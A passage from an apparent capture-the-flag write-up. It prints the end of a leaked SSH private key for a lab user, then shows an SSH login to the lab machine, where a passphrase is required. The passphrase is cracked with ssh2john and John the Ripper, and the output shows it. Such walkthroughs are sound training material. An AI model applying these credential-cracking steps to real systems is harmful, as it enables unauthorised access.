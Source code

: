 0eaR0KFobeZtj7ZLXGWYOCqApKlDGjJovf9P8pWWT6OPLNlK6JvlZbVXFuyNn1tGUHnfns
G9j5FaDCzEh5pHu+gvru2cpCXTuraJ6eLPZ7IkYfDAoH8dIeFCvovHTuG/iagC4hIZ7pVM
sAMrzxIcQ8eyV6sxdF316jo05osvUKwaO8SeiAOiUtmdMXOrePI1GhYYUAK7q1USsuOi1L
NWlImr7+RElYD6szFsQBLgP4U+V0EyrJfJmVsFyOV6G5qYrZuNjAdhsnlLcGjQhsBEj2tS
MB1c/MeSVpyLfrtTwM3BXrAJZ9P73uH7X/IsNVNW3gL0Gw31wbUkq1or2y9C8jU/RiXLJp
bVo8S0O/JKN9XcRFOCnMX4rvZz9LqR8oobxKyXtzO7E57yeEp0Hb7FoE/dyhe0lHSdQpkg
PpBfeEX4k29eDP17sz5I+cms3lmRjPekrmqVx/hKVcirjIgb3P2a0uenqOFI1vygDSejVf
IDp4b0RCPzhiuFey5QJY45x6+MvD3+5PhflQGzbUlDmysaEtGSjTnXsbQpF5C7vRpzt156
3wZb/N1ONAHyadxqoHLfBQtStYI8K80/a4/N0WdnPIdnGrVe4uyTVhDnSyRMAoiqoGt+tr
HybTtJYcs4wVfflS6wnR7POEXRiRaPmvZI9kLcfK9zI3L/Nw/2wOpZ4PBTOWGcGdWZf8GJ
ENGJhsOXSAubX3H9ysJj4daWdre+zF7fSXW8xY/svo7OTaiWBUyHgjZ3N36uVvVgXCkkRj
0lRm7uTl7DUQEVL9jE+pnoU7uROfN4PH6zkiG9xmmuoYYiPSe9JaVuqyJ93cXoXy5HiGaJ
cMXgFzZBR+UdD3FKRvAdcswLkFscANEs6p6R4G6YtMbyylFe7uUb6DtevtBm8vBqBHftzp
67IcgZA0HYoSKrXgzRUo92lKz7TIWAC9HBCnLMvl0lH9TrRcf85+vGWvUOsQl1F4NW4DLO
6akzVkUeb0P02orqPmzuSGQPNad6EegUyd0yG/naW0elDSMhH/V1q7mlBib8TNpi6Y5zxw
hdliLJt0xG6Cb/23Vkh9rG25475k7kk7rh1ZXDNXuU4Z1DvPgh269FyR2BMJ3UUj2+HQdc
0LBpVwh96JbHrLASEwx74+CQq71ICdX3Qvv0cJFjMBUmLgFCyaoKlNKntBqHEJ2bI4+qHq
W5lj7CKPS8r6xN83bz8pWg44bbJaspWajXqgDM0Pb4/ANBgMoxLgAmQUgSLfDOg6FCXGlU
rkYkHSce+BnIEYBnNK9ttPGRMdElELGBTfBXpBtYoF+9hXOnTD2pVDVewpV7kOqBiusnfM
yHBxN27qpNoUHbrKHxLx4/UN4z3xcaabtC7BelMsu4RQ3rzGtLS9fhT5e0hoMP+eU3IvMB
g6a2xx9zV89mfWvuvrXDBX2VkdnvdvDHQRx+3SElSk1k3Votzw/q383ta6Jl3EC/1Uh8RT
TabCXd2Ji/Y7UvM=
-----END OPENSSH PRIVATE KEY-----
I guess you won!
</pre>

<p>Unfortunately, when attempting to establish an SSH connection to the machine using Youcef’s private SSH key, we are prompted to provide a passphrase. To proceed, we will need to recover this passphrase by decrypting it with John the Ripper.</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ ssh -i key youcef@10.10.66.31
The authenticity of host '10.10.66.31 (10.10.66.31)' can't be established.
ED25519 key fingerprint is SHA256:7C+7KD5sXHHAuUddL4pe+CYqXj7LEWGqlWATdS4wRw8.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:17: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.66.31' (ED25519) to the list of known hosts.
Enter passphrase for key 'key': 
</pre>

<p>First, pass the private key to ssh2john and store the hash in a file:</p>
<pre>
ssh2john key > hashkey
</pre>
<p>Second, Let John do its magic by typing the following command:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ john hashkey                                                                                                                                                               
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
a123456          (key)     
1g 0:00:01:04 DONE 2/3 (2025-08-24 11:12) 0.01547g/s 48.43p/s 48.43c/s 48.43C/s amigas..karla
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
</pre>